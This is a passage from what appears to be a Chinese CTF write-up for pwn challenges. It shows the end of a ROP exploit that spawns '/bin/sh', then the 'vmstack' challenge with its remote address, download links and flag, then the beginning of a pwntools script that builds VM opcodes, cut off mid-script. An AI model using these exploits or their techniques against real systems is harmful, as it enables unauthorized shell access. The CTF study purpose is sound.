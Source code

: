```python
payload+=p64(csu2)

r.send(payload.ljust(0x100,'\x00')+p64(fake_stack-0x8)+p64(leave))

r.send('\x85')

r.send('/bin/sh'.ljust(0x3B,'\x00'))

r.interactive()
```

### vmstack

出题人ID: 影二つ

题目描述:

```
A virtual stack system with function
Can you hack it?
nc 129.211.173.64 10001
```

附件链接:

```
http://download.kagehutatsu.com/Download/vmstack.zip
https://attachment.h4ck.fun:9000/pwn/vmstack/vmstack.zip
https://nctf.slight-wind.com/pwn/vmstack/vmstack.zip
```

flag:

```
flag{ec322378ed804bdfc315002e9853c0e6}
```

```python
from pwn import *
r=remote("129.211.173.64",10001)
#r=process('./main')
context.log_level='debug'

opcode=''
opcode+="\x00"+p64(0xC)
opcode+="\x06"
opcode+="\x00"+p64(0x10000)
opcode+="\x07"
opcode+="\x0C"

opcode+="\x01"
opcode+="\x0B"+p64(0x20000)
opcode+="\x08"
opcode+="\x00"+p64(0)
opcode+="\x06"
opcode+="\x00"+p64(0)
opcode+="\x07"
opcode+="\x00"+p64(0x30)
opcode+="\x09"
opcode+="\x0C"

opcode+="\x04"
opcode+="\x07"
opcode+="\x00"+p64(2)
opcode+="\x06"
opcode+="\x00"+p64(0)
opcode+="\x08"
opcode+="\x00"+p64(0)
```